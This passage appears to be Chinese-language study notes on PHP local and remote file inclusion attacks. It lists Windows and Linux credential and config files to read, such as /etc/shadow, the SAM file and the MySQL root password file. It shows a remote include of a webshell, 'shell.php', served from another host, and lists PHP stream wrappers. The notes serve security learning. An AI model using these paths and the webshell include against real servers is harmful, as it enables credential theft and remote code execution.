 比如，以get请求实施文件包含攻击，查看服务器本地文件：`?page=a.php`、`?home=b.html`

```
// windows server

c:\boot.ini // 查看系统版本
c:\XX\httpd.conf  Apache配置信息
c:\windows\system32\inetsrv\MetaBase.xml // IIS配置文件
c:\windows\repair\sam // 存储Windows系统初次安装的密码
c:\ProgramFiles\mysql\my.ini // MySQL配置
c:\ProgramFiles\mysql\data\mysql\user.MYD // MySQL root密码
c:\windows\php.ini // php 配置信息

// Linux/Unix

/etc/passwd 账户信息
/etc/shadow  账户密码文件
/etc/httpd/conf/httpd.conf  Apache配置文件
/etc/my.conf  mysql 配置文件
/usr/local/app/apache2/conf/httpd.conf  Apache2默认配置文件
/usr/local/app/apache2/conf/extra/httpd-vhost.conf   虚拟网站配置
/usr/local/app/php5/lib/php.ini PHP相关配置
```

### 远程文件包含

**利用条件：**

`allow_url_fopen = On` 是否允许将URL（HTTP，HTTPS等）作为文件打开处理

`allow_url_include = On` 是否允许includeI()和require()函数包含URL（HTTP，HTTPS）作为文件解析处理

远程文件包含漏洞是因为开启了PHP配置中的`allow_url_fopen`选项，选项开启之后，**服务器允许包含一个远程文件**，服务器通过PHP特性（函数）去包含任意文件时，由于要包含的这个文件来源过滤不严，从而可以去包含一个恶意文件，而我们可以构造这个恶意文件来达到自己的目的。

比如使用 `http://192.168.75.138/shell.php` 来替换原 URL 中包含的文件名，可以远程执行 PHP 脚本。shell.php可以是一个一句话木马。

![image-20220804213230082](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220804213230082.png)

## ==PHP伪协议==（重要）

```
file:// — 访问本地文件系统
http:// — 访问 HTTP(s) 网址
ftp:// — 访问 FTP(s) URLs
php:// — 访问各个输入/输出流（I/O streams）
zlib:// — 压缩流
data:// — 数据（RFC 2397）
glob:// — 查找匹配的文件路径模式
phar:// — PHP 归档
ssh2:// — Secure Shell 2
rar:// — RAR
ogg:// — 音频流
expect:// — 处理交互式的流
```
